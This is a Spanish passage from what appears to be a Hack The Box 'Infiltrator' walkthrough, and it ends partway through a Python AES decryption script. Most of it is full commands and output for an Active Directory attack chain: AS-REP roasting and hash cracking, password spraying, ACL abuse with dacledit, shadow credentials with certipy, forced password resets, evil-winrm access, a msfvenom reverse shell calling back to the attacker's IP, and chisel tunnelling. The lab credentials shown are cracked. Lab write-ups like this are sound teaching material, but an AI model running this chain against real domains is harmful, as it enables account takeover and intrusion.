2025/05/12 22:52:39 >  Done! Tested 105 usernames (7 valid) in 1.749 seconds
```

Tenemos que existe una cuenta que es de tipo asreproast, como sabemos esto? Debido a que ASREPRoast es una técnica que aprovecha cuentas de Active Directory que no requieren “pre-autenticación Kerberos”. Esto permite solicitar un ticket cifrado con la contraseña del usuario, sin interactuar la contraseña de forma directa. Al KDC (Key Distribution Center) devolver el ticket con la pass del usuario cifrada, esto le da oportunidad a un atacante de intentar crackear la pass de manera offline, a través de herramientas como John, o Hashcat. En este caso utilizaremos hashcat, debido a que este es rapido y trabaja mediante gpu para acelerar el proceso. Pero si no dispones de esto, no te preocupes, John lo puede hacer de igual forma, ya que este trabaja mediante cpu y no gpu.

En mi caso, este primer hash no dio nada (nunca entendi la razon) pero tenemos otra herramienta llamada `GetNPUsers.py`, la cual se encarga de basicamente lo mismo. Al final nos sirvio de algo kerbrute ya que ahora poseemos los usuarios que son realmente legitimos dentro de la maquina, asi que ahora solo pasamos la lista de usuarios reales,y corremos la tool, por lo que esto nos da en consecuencia lo siguiente:


```bash
❯ GetNPUsers.py infiltrator.htb/ -usersfile users.txt -dc-ip 10.10.11.31
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User d.anderson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User o.martinez doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User k.turner doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a.walker doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.harris doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User e.rodriguez doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$l.clark@INFILTRATOR.HTB:9b6e99dc4ebd426dc2d7ef9e957196f6$b2c0dbfe654b0016de5d2c5f3f71978e5d1ebff1619ccf388ae7b93046b4a276d34f60f1e68d8558a32b8c645e427ce75bd887c2a3ca73d2643858d8f97bbd9fa533e09eeefbfd2698f86104887df29a08a0ed10048fdfdbeb2ab223aba79f98c045fa0fe4c92e458e7757d66e2beb386bdf54af0b31036aa007d7386f0f0ef65003f717674787792830c9a13a1a682b04245fac0e8586cf24e55d2e23aa197bb3b080b04c904f4437fafcffbf35cc2966133a2b3d6a42d1ff4000e6c99435cb54072e21c91d0c6376eedd87bf239f0192527607b3f83e342c5d2e6c6456f1d6436c6082c72c4cd5d6fd0956c733af46b3d4
```

Y ahora si con este hash nos permite crackearlo con hashcat, por lo que, pasandolo nos da lo siguiente:

```bash
❯ hashcat l.clark-hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --force
hashcat (v6.2.6) starting in autodetect mode

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

nvmlDeviceGetFanSpeed(): Not Supported

CUDA API (CUDA 12.8)
====================
* Device #1: Quadro P620, 3911/4031 MB, 4MCU

OpenCL API (OpenCL 3.0 CUDA 12.8.97) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #2: Quadro P620, skipped

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 35 MB

Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5asrep$23$l.clark@INFILTRATOR.HTB:9b6e99dc4ebd426dc2d7ef9e957196f6$b2c0dbfe654b0016de5d2c5f3f71978e5d1ebff1619ccf388ae7b93046b4a276d34f60f1e68d8558a32b8c645e427ce75bd887c2a3ca73d2643858d8f97bbd9fa533e09eeefbfd2698f86104887df29a08a0ed10048fdfdbeb2ab223aba79f98c045fa0fe4c92e458e7757d66e2beb386bdf54af0b31036aa007d7386f0f0ef65003f717674787792830c9a13a1a682b04245fac0e8586cf24e55d2e23aa197bb3b080b04c904f4437fafcffbf35cc2966133a2b3d6a42d1ff4000e6c99435cb54072e21c91d0c6376eedd87bf239f0192527607b3f83e342c5d2e6c6456f1d6436c6082c72c4cd5d6fd0956c733af46b3d4:WAT?watismypass!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$l.clark@INFILTRATOR.HTB:9b6e99dc4ebd4...46b3d4
Time.Started.....: Tue May 13 11:27:48 2025, (2 secs)
Time.Estimated...: Tue May 13 11:27:50 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4030.3 kH/s (5.82ms) @ Accel:512 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10551296/14344384 (73.56%)
Rejected.........: 0/10551296 (0.00%)
Restore.Point....: 10485760/14344384 (73.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: XiaoLing.1215 -> TUGGAB8
Hardware.Mon.#1..: Temp: 43c Util: 44% Core:1455MHz Mem:3003MHz Bus:8

Started: Tue May 13 11:27:46 2025
Stopped: Tue May 13 11:27:52 2025
```

Tenemos la siguiente pass:

`WAT?watismypass!`

Ahora con `netexec` podemos verificar si efectivamente tenemos acceso:

```bash
❯ netexec smb 10.10.11.31 -u l.clark -p 'WAT?watismypass!'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
```

### Access as D.anderson

Tenemos acceso dentro de la maquina. Otra cosa que también podríamos hacer seria `Password-Spraying`, que consiste en probar la pass que obtuvimos contra otros usuarios para verificar si esta es valida para otros usuarios, o no. Podemos utilizar de igual forma netexec, simplemente pasando el wordlists con los usuarios validos, y la pass que previamente obtuvimos:

```bash
❯ netexec smb 10.10.11.31 -u users.txt -p 'WAT?watismypass!'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\d.anderson:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\o.martinez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\k.turner:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\a.walker:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\e.rodriguez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass!
```

Podemos observar que tenemos dos cuentas mas que posiblemente sean parte del grupo "Protected Users". Esto debido a la flag que aparece que es de *"STATUS_ACCOUNT_RESTRICTION "*, por lo que su autenticacion es a través de Kerberos. Probando nuevamente teniendo esto en cuenta nos da lo siguiente:

```bash
❯ netexec smb 10.10.11.31 -u users.txt -p 'WAT?watismypass!' -k
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\d.anderson:WAT?watismypass!
```

Nos da positivo que un usuario posee la misma pass que l.clark es valida para d.anderson.

### BloodHound Analysis for Privilege Escalation Paths

Ahora que tenemos esto en cuenta, podríamos tirar de `BloodHound` para hacer un vistazo gráficamente a los permisos, rutas, y paths potenciales que nos podrían servir para seguir escalando nuestros privilegios dentro del DC.

Después de recolectar los datos necesarios, nos debería de dar lo siguiente a continuación:

```bash
❯ bloodhound-python -d infiltrator.htb -u d.anderson -p 'WAT?watismypass!' -k -c ALL -ns 10.10.11.31
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: infiltrator.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 14 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.infiltrator.htb
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
INFO: Done in 00M 42S
```

Despues de la recoleccion de datos con bloodhound encontramos lo siguiente a continuacion:



Utilizamos lo que seria el "PathFinding" que viene incluido en el mismo Bloodhound CE (Community Edition) para ver hasta que usuarios podemos llegar, y nos da que podemos llegar hasta "M.Harris", por lo que, ahora tenemos una idea clara de por donde debemos atacar, y el como podemos hacerlo.

Lo primero que tenemos es un "OU (Organizational Unit)" con un ACL (Access Controll List) de tipo GenericAll. Por lo que, ahora con `dacledit.py` podemos heredar los permisos y objetos que poseemos de la OU para poder operar sobre ella.

Con dacledit conseguimos lo siguiente:

```bash
dacledit.py -principal d.anderson -action 'write' -rights 'FullControl' -inheritance -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' -dc-ip dc01.infiltrator.htb 'infiltrator.htb/d.anderson:WAT?watismypass!' -k

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250513-153303.bak
[*] DACL modified successfully!
```

Aqui lo que estamos diciendo es que el usuario que recibirá los nuevos permisos es d.anderson, y lo que se va a escribir/configurar es un nuevo permiso en el cual, d.anderson tendra control total (Por eso el GenericAll) sobre el OU, para luego pasar el nombre del objeto como tal dentro del dominio (en este caso, el nombre del OU), la ip, el nombre del DC, y por ultimo su usuario y pass.

Despues el resultado nos da que nuestro ACL para d.anderson se cambio correctamente, y heredamos todo lo que habia en la OU con el permiso de GenericAll.

A continuacion, podriamos solicitar el hashnt de la proxima victima, que seria "E.Rodriguez" a traves de certipy, aprovechando los permisos de GenericAll que tenemos sobre ella:

```bash
❯ certipy shadow auto -u d.anderson@infiltrator.htb -p 'WAT?watismypass!' -k -account E.Rodriguez -target dc01.infiltrator.htb -dc-ip 10.10.11.31
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'E.rodriguez'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'ea7a2c5c-2f2a-7cd0-e7d8-a2121bf14cfe'
[*] Adding Key Credential with device ID 'ea7a2c5c-2f2a-7cd0-e7d8-a2121bf14cfe' to the Key Credentials for 'E.rodriguez'
[*] Successfully added Key Credential with device ID 'ea7a2c5c-2f2a-7cd0-e7d8-a2121bf14cfe' to the Key Credentials for 'E.rodriguez'
[*] Authenticating as 'E.rodriguez' with the certificate
[*] Using principal: e.rodriguez@infiltrator.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'e.rodriguez.ccache'
[*] Trying to retrieve NT hash for 'e.rodriguez'
[*] Restoring the old Key Credentials for 'E.rodriguez'
[*] Successfully restored the old Key Credentials for 'E.rodriguez'
[*] NT hash for 'E.rodriguez': b02e97f2fdb5c3d36f77375383449e56
```

### Shell as M.harris

Ahora que tenemos su hashnt, podemos proceder a agregarla al grupo correspondiente, que seria *"Chiefs Marketing"* a traves de `BloodyAD`:

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb --dc-ip 10.10.11.31 -u e.rodriguez -p :b02e97f2fdb5c3d36f77375383449e56 add groupMember "CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB" "e.rodriguez"
[+] e.rodriguez added to CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB
```

Perfecto, ahora por ultimo lo que necesitamos es cambiarle la pass a "M.Harris" ya que disponemos dicho ACL sobre el:

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb --dc-ip 10.10.11.31 -u e.rodriguez -p :b02e97f2fdb5c3d36f77375383449e56 set password "m.harris" 'P4ssW0rd!'
[+] Password changed successfully!
```

Perfecto, ahora revisando en bloodhound a que grupos pertenece Harris, podemos ver que pertenece al "Remote Management Users", por lo que esto nos permite autenticarnos al DC de manera remota. 



Este paso lo haremos via kerberos ya que este ultimo, pertenece al grupo "Protected Users". Primero, obteniendo su TGT y exportandolo a nuestra variable KRB5CCNAME:

```bash
getTGT.py 'infiltrator.htb/m.harris:P4ssW0rd!' -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in m.harris.ccache
❯ export KRB5CCNAME=m.harris.ccache
```

Y con esto ultimo, autenticarnos al DC:

```powershell
❯ evil-winrm -i dc01.infiltrator.htb -u m.harris -p 'P4ssW0rd!' -r infiltrator.htb
  
Evil-WinRM shell v3.7
 
Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline
  
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
   
Warning: User is not needed for Kerberos auth. Ticket will be used
  
Warning: Password is not needed for Kerberos auth. Ticket will be used
   
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.harris\Documents> dir ..\Desktop


    Directory: C:\Users\M.harris\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/13/2025   2:47 AM             34 user.txt


*Evil-WinRM* PS C:\Users\M.harris\Documents> 
```

Y asi obtenemos la bandera del usuario.

Para escalar nuestros privilegios haremos un reconocimiento interno del DC desde la raiz del disco, que es donde suele haber cosas interesantes. Como no conocemos la pass real de dicho usuario, no podemos hacer password-spraying. Pero verificando lo que hay en "Program Files" nos encontramos con lo siguiente:

```powershell
*Evil-WinRM* PS C:\Program Files> dir


    Directory: C:\Program Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        12/4/2023   9:22 AM                Common Files
d-----        8/21/2024   1:50 PM                Hyper-V
d-----        2/19/2024   3:52 AM                internet explorer
d-----        2/23/2024   5:06 AM                Output Messenger
d-----        5/13/2025   2:49 AM                Output Messenger Server
d-----       12/12/2023  10:04 AM                PackageManagement
d-----        2/19/2024   4:16 AM                Update Services
d-----        12/4/2023   9:23 AM                VMware
d-r---        11/5/2022  12:03 PM                Windows Defender
d-----        8/21/2024   1:50 PM                Windows Defender Advanced Threat Protection
d-----        11/5/2022  12:03 PM                Windows Mail
d-----        8/21/2024   1:50 PM                Windows Media Player
d-----        9/15/2018  12:19 AM                Windows Multimedia Platform
d-----        9/15/2018  12:28 AM                windows nt
d-----        11/5/2022  12:03 PM                Windows Photo Viewer
d-----        9/15/2018  12:19 AM                Windows Portable Devices
d-----        9/15/2018  12:19 AM                Windows Security
d-----       12/12/2023  10:04 AM                WindowsPowerShell


*Evil-WinRM* PS C:\Program Files> 
```

Hay una aplicacion llamada "Output Messenger". Este podria ser nuestro vector de ataque para un futuro, por lo que, tenemos la suerte de que esta app esta disponible para Linux. 

Tenemos diferentes formas de instalar esta App para su posterior uso, pero a futuro el path que mejor nos convendra seria instalando una vm con windows y posteriormente por alli hacer todo el proceso a continuacion. Aunque de todas formas dejare el como instalar la aplicacion para Linux (Arch en mi caso), y tambien para Windows (A la fecha que escribi este writeup, sigo pensando que es el path correcto)

## (Output-Messenger install Arch)

La instalacion en Arch sera ligeramente distinta a si lo hacemos en una distro basada en debian, digase Kali, Ubuntu, etc, dara el mismo resultado desde un principio. Primero debemos descargar algunas dependencias como las siguientes (usando yay y pacman):

```bash
sudo pacman -S lib32-glibc lib32-gtk2
yay -S debtap-mod
```

Una vez afuera solo nos queda ejecutar

```
debtap-mod <Output.deb>
```

En la instalacion se nos pedira un nombre para instalar y una licencia (por defecto la que siempre viene en cualquier software), no lo considero necesario asi que simplemente le das a enter y sigues. Despues deberia de aparecer esta ventanita (en mi caso uso bspwm) a la cual le debemos dar a "Apply" y ya.



Luego de esto, Output-Messenger deberia de estar instalado en Arch Linux

## (Output-Messenger install Windows)

Suponiendo que ya tienes una maquina Windows instalada, vamos al siguiente paso. Es tan simple como entrar a la web de Output-Messenger, y descargar la version de cliente para windows:




(Asumiendo que el sistema esta basado en 64 bits)

Una vez descargado, solo es seguir la típica de instalación de un software en Windows:



En mi caso me salio el siguiente mensaje de alerta porque ya lo tengo descargado, asi que aborto la instalacion. Pero en el caso de que sea la primera vez, no deberia dar problemas



Y listo, asi deberias tener Output-Messenger instalado en tu VM de Windows (Recomiendo seguir este path para el resto de la maquina, aunque para que funcione correctamente, requiere seguir unos pasos extras que a continuación se mostraran).

### Sharing OPENVPN Connection from Linux to Windows VM

Una vez con el Output-Messenger instalado de manera correcta, debemos proceder a lo que seria el reenvio de puertos desde la maquina atacante Linux a la maquina virtual atacante Windows, o mas bien, lo que seria conectar las dos maquinas simultaneamente a la VPN que nos ofrece HackTheBox, esto a traves de las siguientes configuraciones:

```bash
(Linux)

# Habilitando el reenvio de IP

echo 1 > /proc/sys/net/ipv4/ip_forward

# Configurando el reenvio

iptables -A FORWARD -i tun0 -o <tarjeta de red (eth0, wlan0, etc)> -m state --state RELATED,ESTABLISHED -j ACCEPT

iptables -A FORWARD -i <tarjeta de red (eth0, wlan0, etc)> -o tun0 -j ACCEPT 

# Agregando un NAT

iptables -t nat -A POSTROUTING -s 192.168.0.0/24 -o tun0 -j MASQUERADE

(Este ultimo, el -s puede variar, ya que puede que tu red sea 192.168.2.0 o alguna otra variante)
```

```powershell
(Windows)

route add 10.10.10.0 mask 255.255.255.0 <ip de la maquina Linux atacante>
```

Ahora simplemente confirmamos que podemos hacerle un ping al dc (10.10.11.31) desde la maquina atacante Windows:

```powershell
PS C:\Users\Testing> ping 10.10.11.31

Pinging 10.10.11.31 with 32 bytes of data:
Reply from 10.10.11.31: bytes=32 time=164ms TTL=128
Reply from 10.10.11.31: bytes=32 time=168ms TTL=128
Reply from 10.10.11.31: bytes=32 time=160ms TTL=128

Ping statistics for 10.10.11.31:
   Packets: Sent = 3, Received = 3, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
   Minimum = 160ms, Maximum = 168ms, Average = 164ms
Control-C
PS C:\Users\Testing>
```

Como se observa, tenemos respuesta del DC, confirmando que la conexion se esta compartiendo de igual forma para la maquina atacante Windows. Incluso podemos acceder a la web inicial y todo:



Por lo que, si todo esto te sale tal cual me salio a mi, vas por el camino correcto.

## Output-Messenger Part

Luego de configurar todo, algo que podriamos hacer es revisar con netexec la descripcion de los usuarios, aprovechando que tenemos al M.Harris pwned (Aunque este paso funciona con cualquier usuario, si lo hacemos justo al principio no nos servira debido a que primero debemos de tener acceso al DC a traves de winrm para el próximo paso)

```bash
❯ netexec ldap 10.10.11.31 --use-kcache -k -M get-desc-users
LDAP        10.10.11.31     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:INFILTRATOR.HTB)
LDAP        10.10.11.31     389    DC01             [+] INFILTRATOR.HTB\m.harris from ccache 
GET-DESC... 10.10.11.31     389    DC01             [+] Found following users: 
GET-DESC... 10.10.11.31     389    DC01             User: Administrator description: Built-in account for administering the computer/domain
GET-DESC... 10.10.11.31     389    DC01             User: Guest description: Built-in account for guest access to the computer/domain
GET-DESC... 10.10.11.31     389    DC01             User: krbtgt description: Key Distribution Center Service Account
GET-DESC... 10.10.11.31     389    DC01             User: K.turner description: MessengerApp@Pass!
GET-DESC... 10.10.11.31     389    DC01             User: infiltrator_svc$ description: dc01.infiltrator.htb
```

Encontramos lo que vendria siendo un usuario con una posible pass que podria bien pertenecer a la aplicacion de Output Messenger. Dicho esto, procedemos a hacer Port Fowarding a traves de `chisel`. Primero autenticandonos al DC como el usuario que previamente habiamos pwneado que tenia acceso a winrm (Por eso la mencion anterior que si desde un principio veiamos la descripcion de los demas usuarios a traves de LDAP, no nos seriviria de mucho porque necesitabamos tener acceso al DC en un principio).

Una vez dentro del DC con una consola interactiva, seria cuestion de crearse un directorio llamado "tools" para incluir alli todas las herramientas a utilizar, digase chisel, algun reverse shell, etc...

El primero que subiremos sera chisel, y solo basta con el comando "upload" y la ruta de donde tenemos (en nuestra maquina atacante Linux) dicho ejecutable, recomiendo que una vez ubicado, conectarse al winrm desde alli para solamente pasar el nombre del archivo y ya:

```powershell
*Evil-WinRM* PS C:\> mkdir tools


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        5/27/2025   5:38 PM                tools


*Evil-WinRM* PS C:\> cd tools
*Evil-WinRM* PS C:\tools> upload chisel.exe

Info: Uploading /home/unknown/htb/infiltrator/chisel.exe to C:\tools\chisel.exe

Data: 9556 bytes of 9556 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\tools> upload reverse.exe

Info: Uploading /home/unknown/htb/infiltrator/reverse.exe to C:\tools\reverse.exe
 
Data: 9556 bytes of 9556 bytes copied
  
Info: Upload successful!
```

Una vez con nuestras tools instaladas, procedemos a primero obtener la shell a traves del "reverse.exe". Porque a traves de una reverse shell tradicional y no del mismo winrm? La estabilidad de la maquina no era la misma. Mientras que en winrm repentinamente se llegaba a caer, en una shell tradicional con netcat, mantuvo su funcionalidad. Este .exe malicioso se hizo con el siguiente comando:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.61 LPORT=4444 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

Una vez entendido esto, nos ponemos en escucha en nuestra maquina Linux atacante:

```bash
❯ rlwrap -cAr nc -lvnp 4444
Listening on 0.0.0.0 4444
```

Y desde el DC ejecutamos la shell:

```powershell
*Evil-WinRM* PS C:\tools> .\reverse1.exe
*Evil-WinRM* PS C:\tools>
```

En un principio no muestra nada, pero desde nuestro listener si:

```bash
❯ rlwrap -cAr nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.31 62792
Microsoft Windows [Version 10.0.17763.6189]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\tools>
```

Con esto ahora, ejecutamos el chisel.exe para hacer el port fowarding:

```powershell
C:\tools>.\chisel.exe client 10.10.16.61:1234 R:14118:127.0.0.1:14118 R:14119:127.0.0.1:14119 R:14121:127.0.0.1:14121 R:14122:127.0.0.1:14122 R:14123:127.0.0.1:14123 R:14125:127.0.0.1:14125 R:14126:127.0.0.1:14126 R:14127:127.0.0.1:14127 R:14128:127.0.0.1:14128 R:14130:127.0.0.1:14130 R:14406:127.0.0.1:14406
2025/05/27 19:19:05 client: Connecting to ws://10.10.16.61:1234
2025/05/27 19:19:09 client: Connected (Latency 401.6645ms)
```

Y desde nuestro Linux atacante obtenemos los puertos requeridos para Output-Messenger:

```bash
❯ sudo chisel server --port 1234 --reverse
[sudo] password for unknown: 
2025/05/27 22:06:08 server: Reverse tunnelling enabled
2025/05/27 22:06:08 server: Fingerprint 2xu0b5rLlhpDB+IMJF4dkpnqzts+o7um9KsU0JODo9g=
2025/05/27 22:06:08 server: Listening on http://0.0.0.0:1234
2025/05/27 22:19:06 server: session#1: tun: proxy#R:14118=>14118: Listening
2025/05/27 22:19:06 server: session#1: tun: proxy#R:14119=>14119: Listening
2025/05/27 22:19:06 server: session#1: tun: proxy#R:14121=>14121: Listening
2025/05/27 22:19:06 server: session#1: tun: proxy#R:14122=>14122: Listening
2025/05/27 22:19:06 server: session#1: tun: proxy#R:14123=>14123: Listening
2025/05/27 22:19:06 server: session#1: tun: proxy#R:14125=>14125: Listening
2025/05/27 22:19:06 server: session#1: tun: proxy#R:14126=>14126: Listening
2025/05/27 22:19:06 server: session#1: tun: proxy#R:14127=>14127: Listening
2025/05/27 22:19:06 server: session#1: tun: proxy#R:14128=>14128: Listening
2025/05/27 22:19:06 server: session#1: tun: proxy#R:14130=>14130: Listening
2025/05/27 22:19:06 server: session#1: tun: proxy#R:14406=>14406: Listening
```

A partir de aqui, comenzaremos a usar la maquina Windows que habiamos configurado. En linux este proceso servira pero solo hasta cierto punto. Ya que habra una seccion que si o si (en mi caso) requiera el uso de la maquina virtual de Windows.

### Access as K.turner

Desde nuestra maquina virtual con Windows, procedemos a conectarnos a la IP de la maquina Linux atacante a traves del Output-Messenger. Si el port-fowarding fue exitoso, debio de haber dado lo siguiente, usando las credenciales que habiamos encontrado en la descripcion de los usuarios a traves de LDAP:

La primera vez te pedira la ip del servidor que ejecuta Output-Messenger. Si despues de esto te manda a ingresar un usuario y su pass, vas bien porque el port-fowarding fue exitoso y por tanto, te puedes conectar



Pudimos acceder como K.turner exitosamente a la aplicación de mensajería y por lo tanto, podemos ver chats, leerlos, etc. Aquí una prueba clara de ello:



### Access as M.harris

Perfecto... Que sigue? Si revisamos un poco, vemos que en la barra de navegación hay una alerta que al hacer click en ella nos devuelve la siguiente información:



Vemos algunas publicaciones interesantes, entre ellas, una que nos llama muchisimo la atencion. Haciendo click sobre ella devuelve lo siguiente:



El tema central que parece que hablan al respecto parece ser de una aplicacion que se ha estado desarrollando dentro de la empresa. Que sucede? Que alli estan las credenciales reales del usuario M.harris que habiamos comprometido anteriormente, esto nos permite ver si esas credenciales son validas para la aplicacion y nos da lo siguiente:



Nos da como resultado que la misma password que utiliza para dentro del DC, es la misma que utiliza para la aplicación. Aquí, a diferencia de K.turner, no parece haber una sección de posts, por lo que podríamos hacer seria revisar chats a continuación. Empezando con el principal, el cual nos devuelve la siguiente información:



Al parecer el administrador estuvo hablando con harris acerca de la "Nueva" versión de la aplicación que se vio en desarrollo con K.turner, el problema radica (según el chat) que parece ser que es una versión desactualizada de la misma. Dicho esto, esto nos da la posibilidad de descargarlo en nuestra maquina para posteriormente hacerle ingeniería inversa.

Breve definicion de ingenieria inversa:

```
La ingeniería inversa es el proceso de analizar una aplicación desde el exterior hacia el interior para entender cómo funciona por dentro, sin tener acceso al código fuente original.

En lugar de leer el código como lo haría un programador, tomas el programa ya terminado (el archivo .exe, por ejemplo) y lo estudias con herramientas especiales que te permiten ver:

- qué hace el programa
- cómo se conecta con otras partes del sistema
- qué funciones utiliza
- y si tiene fallos o puertas traseras ocultas
```

### Access as winrm_svc

Una vez claro esto, existe un repositorio de github que nos proporciona un software que nos servira para esta tarea la cual se llama dnSpy:



No sabia que tenían una pagina web xd, pero es lo mismo que el segundo enlace, solo que desde su web oficial. Pero bueno, una vez descargado este software lo descomprimimos, y mandamos un acceso directo al escritorio para mas comodidad:



Una vez que entramos a la app vemos algo similar a lo siguiente:



Necesitamos importar el .exe de la app antes de empezar a trabajar en esto. Al abrir desde el Output-Messenger donde se descargo dicho ejecutable, nos da una ruta. Con esto, enviamos el ejecutable al escritorio y abrimos el .exe desde dnspy:




Despues de importarla empezamos a revisar. Hay una parte en "{}" que llama la atención, la cual es LdapApp. Si le damos un click a esto nos devuelve lo que parece ser el siguiente código:



Se nos da un código que parece contener lo que seria la clave del usuario winrm_svc pero en formato AES (Advanced Encryption Standard). Este tipo de hash criptografico / cifrado cimetrico es uno de los mas difíciles de romper, por lo que nuestras herramientas típicas como hashcat, o john, no nos servirán para la tarea. Necesitaremos uso de la clave descifradora para descifrar la primera que se encuentra abajo de "winrm_svc", por lo que, aquí recurrimos a ChatGPT para que nos arme un script en python que sea capaz de a través de la clave privada `b14ca5898a4e4133bbce2ea2315a1916` descifrar la primera `TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE=`, y después de muchos y muchos y mas intentos, logramos el objetivo.

```python
#!/usr/bin/env python3
"""
decrypt.py - Descifra un texto cifrado en AES-128 CBC con IV de ceros y PKCS7.

Uso:
    python decrypt.py <base64_cipher_text>

Ejemplo:
    python decrypt.py TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE=
"""
import sys
import base64
from Crypto.Cipher import AES

def unpad_pkcs7(data: bytes) -> bytes:
    """Elimina el relleno PKCS7 de los datos"""
    padding_len = data[-1]
    if padding_len < 1 or padding_len > AES.block_size:
        raise ValueError("Padding inválido")
    if data[-padding_len:] != bytes([padding_len]) * padding_len:
        raise ValueError("Padding inválido")
    return data[:-padding_len]

def decrypt_string(key: bytes, cipher_text_b64: str) -> str:
    """
    Descifra un texto cifrado en AES-128 CBC con IV de ceros.

    :param key: clave de 16 bytes
    :param cipher_text_b64: texto cifrado en base64
    :return: texto descifrado como cadena UTF-8
    """
    # Decodificar base64
